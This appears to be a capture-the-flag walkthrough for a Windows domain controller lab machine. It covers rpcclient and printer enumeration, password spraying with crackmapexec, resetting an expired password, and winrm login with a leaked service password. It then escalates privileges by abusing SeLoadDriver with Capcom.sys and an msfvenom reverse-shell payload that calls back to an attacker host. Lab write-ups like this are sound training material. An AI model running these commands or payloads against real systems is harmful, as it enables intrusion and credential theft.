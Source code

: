 
**Skills Required**
Basic Windows Knowledge
**Skills Learned**
Printer Enumeration
Reset Expired Passwords
SeLoadDriver Privilege Abuse
Password Spraying

---------------
rpcclient, Enumerate Printer Service, cewl, crackmapexec, smb, smbpasswd, Connect with rpcclient, enumdomusers, enumprinters, Reuse crackmapexec, winrm, Privilege Escalation, Load and unload device drivers, EoPLoadDriver, capcom.sys, exploitcapcom, Generic-AppLockerbypasses, reverse.exe, msfvenom, LoadDriver.exe, ExploitCapcom.exe, reverse shell, administrator, Finding the flag.

-------------------
Title: **Enumerating Open Ports 135/139 (Domain Controller) with rpcclient**

**Step 1: Enumerate Users**

```bash
rpcclient -U "" ip -N
```

**If you can't enumerate users, proceed to Step 2.**

**Step 2: Port 80 Check**

Check if port 80 is open. If it is, find the domain name and add it to /etc/hosts.

**Step 3: Enumerate Printer Service**

Enumerate printer services to find potential user accounts:

Usernames: pmerton, tlavel, sthompson, bhult, administrator

**Step 4: Build a Password Dictionary**

Create a password dictionary based on website content:

```bash
cewl -w passwords ipvictim --with-numbers
```

**If users are found, proceed to Step 5.**

**Step 5: Use crackmapexec**

If valid credentials are available, use crackmapexec for SMB enumeration:

```bash
crackmapexec smb ip -u users -p passwords --continue-on-success
```

**If a valid credential with status_password_must_change is found, use smbpasswd.**

```bash
smbpasswd -r ip -U "username"
```

**If the password is changed, proceed to Step 6.**

**Step 6: Connect with rpcclient**

With valid credentials, connect using rpcclient:

```bash
rpcclient -U 'username%password' ip
```

Copy the found users and save them:

```bash
rpcclient enumdomusers
```

**If there are printers (search for important data in the description):**

```bash
rpcclient enumprinters   -  $fab@s3Rv1ce$1
```

**Step 7: Reuse crackmapexec**

Since a password was found in the printers, use crackmapexec again:

```bash
crackmapexec smb ip -u users -p 'password'
svc-print:$fab@s3Rv1ce$1 
```

**Step 8: Try crackmapexec and winrm to check if the user and passwd are available to gain access to the system**

If valid credentials are found with crackmapexec, try connecting with crackmapexec and winrm:

```bash
crackmapexec winrm ip -u "username" -p 'password'

╰─❯ evil-winrm -i 10.10.10.193 -u 'svc-print' -p '$fab@s3Rv1ce$1'                                                        
```

**Step 9: Privilege Escalation**

Navigate to the temp directory and enumerate user privileges:

```bash
whoami /priv
```

**If the "Load and unload device drivers" privilege is found (dangerous):**

Search for "Load and unload device drivers" on tarlogic.com. Compile a Windows Console App in C++ named EoPLoadDriver (64-bit). Download capcom.sys.

Find exploitcapcom on GitHub (exploitcapcom.sln) and compile it with this path at the end: `("C:\\Windows\\System32\\spool\\drivers\\color\\reverse.exe")`

Search for Generic-AppLockerbypasses.md and select a path: (spool, driver, colors) `C:\Windows\System32\spool\drivers\color`

Create reverse.exe with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.100 LPORT=1234 -f exe -o reverse.exe
```

Send everything to the victim machine:

windows/Temp > upload Capcom.sys, LoadDriver.exe, ExploitCapcom.exe
cd `C:\Windows\System32\spool\drivers\color\`
upload reverse.exe

Run on the victim machine:

```bash
C:\Windows\Temp\LoadDriver.exe System\CurrentControlSet\kvzlxshell C:\Windows\Temp\Capcom.sys
C:\Windows\Temp\ExploitCapcom.exe
```

This will give you a reverse shell as an administrator, solving the machine.

**Finding the flag**

---

5fe5f7a225cce602d234330a64b66905


















